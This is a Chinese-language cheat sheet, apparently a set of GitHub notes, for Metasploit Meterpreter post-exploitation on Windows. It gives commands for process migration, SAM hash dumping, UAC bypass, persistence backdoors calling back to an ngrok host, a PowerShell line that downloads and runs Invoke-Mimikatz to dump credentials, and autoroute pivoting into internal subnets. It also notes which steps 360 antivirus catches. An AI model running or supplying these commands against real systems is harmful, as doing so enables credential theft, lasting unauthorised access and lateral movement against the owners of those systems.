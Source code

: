```
---
```
meterpreter > getuid
Server username: xxxx
meterpreter > getpid
Current pid: 3456
meterpreter > ps

Process List
============
 PID   PPID  Name                       Arch  Session  User          Path
---   ----  ----                       ----  -------  ----          ----
 12000  676  shell.exe                  x86   2        xxx  C:\Users\xxx\Desktop\shell.exe
 676  1124  explorer.exe               x64   2        xxx  C:\Windows\explorer.exe

meterpreter > migrate 676
[*] Migrating from 12000 to 676...
[*] Migration completed successfully.
```

### Msf hash
---

1. meterpreter > run hashdump      需要sys权限 导出SAM
2. meterpreter > run post/windows/gather/smart_hashdump  需要sys权限
3. getsystem存在uac，用msf bypass，但特征明显 meterpreter > search bypassuac
4. msf powerdump load mimikatz 不太好用

### Msf的持续后门
---

Persistence: run persistence -h：用于创建启动项启动，会创建注册表，创建文件。（X86_Linux不支持此脚本）

	run persistence -U -i 10 -p 10390 -r free.ngrok.cc 
	会被360拦，-i 10 10秒请求一次  
使用powershell执行也被监控而被360拦截

meterpreter 的 run getgui -e 命令可以开启成
功。360会提示阻止

Run metsvc -h ：用于创建服务，会创建meterpreter服务，并上传三个文件，使用-r参数可以卸载服务 ，被拦

### Msf powershell
---

	meterpreter > load powershell
	meterpreter > powershell_shell
	PS > IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1');
	Ps > Invoke-Mimikatz -DumpCreds

### Msf Router
---

2个或多个路由之间，没有配置相应的路由表，不能访问，获得一台机器shell session 添加路由，使msf可以在当前shell session下以被攻击机访问其他内网主机.

	meterpreter > run get_local_subnets 
		[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
		[!] Example: run post/multi/manage/autoroute OPTION=value [...]
		Local subnet: 172.17.0.0/255.255.0.0
	meterpreter > run autoroute -s 172.17.0.0/16  添加路由
	meterpreter > run autoroute -p 				  查看路由
	meterpreter > run autoroute -d -s 172.17.0.0/16  删除

```